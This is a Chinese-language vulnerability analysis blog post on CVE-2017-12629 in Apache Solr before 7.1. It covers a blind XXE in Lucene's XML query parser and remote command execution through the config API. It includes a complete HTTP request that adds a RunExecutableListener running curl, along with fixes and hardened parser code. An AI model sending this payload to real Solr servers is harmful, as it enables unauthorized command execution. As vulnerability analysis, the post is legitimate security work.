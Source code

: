 ```yaml
---
layout:     post
title:      "CVE-2017-12629 - Apache Solr XXE & RCE 漏洞分析"
subtitle:   "Analysis of the Vulnerabilities"
date:       2017-10-24
author:     "Urahara"
categories: [XXE, Remote Code Execution, Java Security]

---
```


### Versions Affected

```
Apache Solr before 7.1.0 with Apache Lucene before 7.1
Elasticsearch, although it uses Lucene, is NOT vulnerable to this.
```

### Description

​	Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

### First Vulnerability:  XML External Entity Expansion

#### Test Environment

> Linux Ubuntu server x64
>
> **Apache Solr 7.0.1** (https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.0.1/)
>
> **Java SE Development Kit 8** (http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)  
>

**1. 启动Solr**

Solr不需要额外安装，解压安装包即可，通过bin/solr目录来启动

```shell
$ bin/solr start
```

如果在Windows平台，可以这样启动：

```powershell
bin\solr.cmd start
```

这样就可以在后台启动Solr，并监听8983端口，启动脚本会检查启动的正确性并返回提示信息到控制台。这时就可以通过浏览器来访问管理控制台(http://localhost:8983/solr/)。

**2. 创建Core**

如果没有使用示例配置，为了能够建立索引和查询，这里必须创建一个Core

```shell
$ bin/solr create -c Urahara # Urahara为你要创建的Core的名称
```

这会使用data-driven schema创建一个core，会尝试根据添加的文档来确定类型建立索引。

查看所有创建新core的选项：

```shell
$ bin/solr create -help
```

**3. 添加文档**

这时候Solr中还是空的，我们需要添加一些文档以便进行索引。在example/目录的子目录下有不同的类型。

在bin/目录下有一个发送脚本，是一个命令行工具，可以索引不同的文档。现在不需要关心太多细节。索引部分的所有细节都在The Indexing and Basic Data Operations部分。

要查看有关bin/post的有关信息，使用-help选项。Windows用户可以参考bin/post工具的Windows部分。bin/post可以发送各种数据类型到Solr，包括原生的XML和JSON格式、CSV文件，丰富的文档目录树，甚至是抓取的简单网页。

继续，根据示例XML文件添加所有文档：

![solr-post](http://reverse-tcp.xyz/static/img/_posts/solr/solr-post.png)

完成上述操作Solr就已经为这些文档建立索引并包含在这些文件中。

现在，我们有了索引文档可以执行查询。比如下面在所有文档中查询video

![solr-select](http://reverse-tcp.xyz/static/img/_posts/solr/solr-select.png)

#### Vulnerability Analysis

这是一个典型XXE漏洞的缺陷编码示例，Lucene包含了一个查询解析器支持XML格式进行数据查询，出现问题的代码片段在/solr/src/lucene/queryparser/src/java/org/apache/lucene/queryparser/xml/CoreParser.java文件中

![parseXML](http://reverse-tcp.xyz/static/img/_posts/solr/parseXML.png)

通过查看调用栈中的数据处理流程，在调用lucene xml解析器时确实没有对DTD和外部实体进行禁用处理，造成了Blind XXE。

![solr-xxe](http://reverse-tcp.xyz/static/img/_posts/solr/solr-xxe.png)

### Second Vulnerability: Remote Code Execution

依据漏洞作者所披露的漏洞细节来看，RCE需要使用到SolrCloud Collections API，所以**RCE只影响Solrcloud分布式系统**。

#### Test Environment

> Linux Ubuntu server x64
>
> **Apache Solr 7.0.1** (https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.0.1/)
>
> **Java SE Development Kit 8** (http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)  
>
> **Zookeeper 3.4.6** (http://mirror.bit.edu.cn/apache/zookeeper/)
>

这里我搭建了单节点伪分布式SolrCloud进行漏洞复现和调试

**1. 启动Zookeeper**

在ZooKeeper目录创建data目录，用来作为单个ZooKeeper节点的存储目录，在该目录下建立一个myid文件```echo 1 > data/myid``` 

打开conf/zoo.cfg文件，进行如下修改: dataDir修改为data的路径，并在文件末尾加上如下配置```server.1=localhost:2287:3387``` 

通过```bin/zkServer.sh start ./conf/zoo.cfg``` 启动Zookeeper服务

**2. 启动Solr**

启动Solr时需要与Zookeeper端口对应

```shell
bin/solr start -p 8983 -f -a "-DzkHost=localhost:2181"
```

至此，我们已完成了SolrCloud的伪分布式搭建

![solrcloud](http://reverse-tcp.xyz/static/img/_posts/solr/solrcloud.png)

#### Vulnerability Analysis

RunExecutableListener类中使用了``Runtime.getRuntime().exec()``方法，可用于在某些特定事件中执行任意命令

![exec](http://reverse-tcp.xyz/static/img/_posts/solr/exec.png)

使用了config API传入add-listener命令即可调用RunExecutableListener

![RunExecutableListener](http://reverse-tcp.xyz/static/img/_posts/solr/RunExecutableListener.png)

```http
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://127.0.0.1:8080"]
  }
}
```

而这里的"exe"，"dir"，"args"内容也都可以通过http的方式传入，所以在没有访问控制的情况下任何人都可以通过该config API 达到任意命令执行的操作

通过查看代码，能够触发命令执行的事件有两个：```postCommit``` 和 ```newSearcher``` 

![exec-Event](http://reverse-tcp.xyz/static/img/_posts/solr/exec-Event.png)

使用postCommit时，需要使用update进行collection更新后命令才会执行，因此需要两次进行请求

![postCommit-1](http://reverse-tcp.xyz/static/img/_posts/solr/postCommit-1.png)

![postCommit-2](http://reverse-tcp.xyz/static/img/_posts/solr/postCommit-2.png)

而使用newSearcher时可直接执行命令

![newSearcher](http://reverse-tcp.xyz/static/img/_posts/solr/newSearcher.png)

### Solution

1. 添加Solr访问控制，**包括禁止本地直接未授权访问** 
2. 升级版本至7.1，该版本已经解决了XML解析问题并删除了RunExecutableListener类
3. 针对XXE可手动修改CoreParser.java文件，按照通常防止基于DOM解析产生XXE的防范方法修复即可

```Java
static Document parseXML(InputStream pXmlFile) throws ParserException {
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    DocumentBuilder db = null;
    try {
      //protect from XXE attacks
      dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
      dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
      dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
      
      db = dbf.newDocumentBuilder();
    }
    catch (Exception se) {
      throw new ParserException("XML Parser configuration error", se);
    }
    org.w3c.dom.Document doc = null;
    try {
      doc = db.parse(pXmlFile);
    }
```

3. 针对RCE问题，由于涉及的是SolrCloud所以建议在所有节点中添加filter，进行相关过滤

### Referer

http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html

http://seclists.org/oss-sec/2017/q4/79

